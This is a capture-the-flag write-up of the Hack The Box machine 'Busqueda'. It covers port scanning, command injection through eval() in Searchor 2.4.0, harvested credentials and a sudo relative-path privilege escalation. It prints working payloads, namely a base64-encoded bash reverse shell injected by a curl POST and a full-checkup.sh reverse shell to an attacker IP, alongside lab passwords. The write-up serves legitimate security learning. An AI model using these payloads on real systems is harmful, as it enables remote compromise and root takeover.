 # HTB - Busqueda

#### Ip: 10.10.11.208
#### Name: Busqueda
#### Rating: Easy

----------------------------------------------------------------------

![Busqueda.png](../assets/busqueda_assets/Busqueda.png)


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Busqueda]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.208 -sC -sV 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-01 10:06 CST
Nmap scan report for 10.10.11.208
Host is up (0.074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.54 seconds
```

We can see the site is attempting to redirect to http://searcher.htb/ so lets add that to our `/etc/hosts` file.


Navigating to the site on port 80 we find a page with search functionality:

![busqueda_site.png](../assets/busqueda_assets/busqueda_site.png)

At the bottom of the page we see it is running Flask as well as Searchor 2.4.0:

![busqueda_version.png](../assets/busqueda_assets/busqueda_version.png)

Looking for exploits for searcher 2.4.0 we find this GitHub feauturing a bash arbitrary code injection exploit:

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Per the GitHub ReadMe we see it is specifically exploiting the function call `eval()` in which it is able to execute system commands:

```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval( # <<< See here 
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
            click.echo("opening browser...")
	  ...
```

The script injects:
```bash
rev_shell_b64=$(echo -ne "bash  -c 'bash -i >& /dev/tcp/$2/${port} 0>&1'" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i'))
```

Into the function via a POST request using CURL:
```bash
curl -s -X POST $1/search -d "engine=Google&query=${evil_cmd}" 1> /dev/null
```

### Exploitation

We can exploit this vulnerability with the exploit script with no changes needed to the code:

![busqueda_shell.png](../assets/busqueda_assets/busqueda_shell.png)

getting a shell back as user svc.

We are now able to grab the user.txt flag:

![busqueda_user.png](../assets/busqueda_assets/busqueda_user.png)

### Privilege Escalation

Looking more closely at the svc home folder we find a .gitconfig file:

```
svc@busqueda:~$ cat .gitconfig
cat .gitconfig
[user]
	email = cody@searcher.htb
	name = cody
[core]
	hooksPath = no-hooks
```

Lets hang onto this info and keep enumerating.

After loading up and running linpeas.sh to help enumerate a privilege escalation vector, we notice there is a gitea vhost running that was missed during enumeration. Lets add that to `/etc/hosts` and check it out:

```
10.10.11.208    searcher.htb gitea.searcher.htb
```

Heading to the gitea site we find a sign-in button:

![busqueda_gitea.png](../assets/busqueda_assets/busqueda_gitea.png)

This seems like progress, but we still don't have a password for cody.

Going back to my shell for further enumeration I find a .git file in `/var/www/app` that has a config file containing cody's password:

![busqueda_password.png](../assets/busqueda_assets/busqueda_password.png)

cody:jh1usoih2bkjaspwe92

Armed with this password lets see if we can use it to run `sudo -l` to check if we can run anything with elevated permissions:

```text
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

We are unable to read this script:
```text
svc@busqueda:/var/www/app/.git$ cat /opt/scripts/system-checkup.py
cat: /opt/scripts/system-checkup.py: Permission denied
```

But trying to run it to read a file normally prohibted to lower level users gets us this error:
```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py /etc/shadow

Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

We can view the docker containers:
```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps  
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS             PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   13 months ago   Up About an hour   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   13 months ago   Up About an hour   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Lets inspect the gitea container. To do that we'll also need to declare the format:
```
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```
I had to reference the docker docs (ha) for this. I am super bad with Docker and it is definitely something I need to learn more about:

![busqueda_docker_docs.png](../assets/busqueda_assets/busqueda_docker_docs.png)

```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' gitea

--format={"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

Nice! Looks like we've discovered another credential: yuiu1hoiu4i5ho1uh

We can use this to succesfully log into the gitea site as the administrator:

![busqueda_login.png](../assets/busqueda_assets/busqueda_login.png)

Taking a look at the sytem-checkup.py file we see it also is executing the full-checkup.sh file in `/opt/scripts`

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
```
Because this doesn't contain the full path for full-checkup.sh, we may be able to create our own malicious file calle full-checkup.sh, and execute it using our sudo permissions.

Lets create a file called full-checkup.sh containing a bash reverse shell:
```bash
#! /bin/bash
bash -i >& /dev/tcp/10.10.14.60/4444 0>&1
```

We can make it executable with:
```bash
chmod +x full-checkup.sh
```

And finally we can set up a nc listener, and execute it using our sudo permissions:

```text
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

This catches us a shell back as root and we can grab the final flag:

![busqueda_root.png](../assets/busqueda_assets/busqueda_root.png)

Thanks for folllowing along!

-Ryan





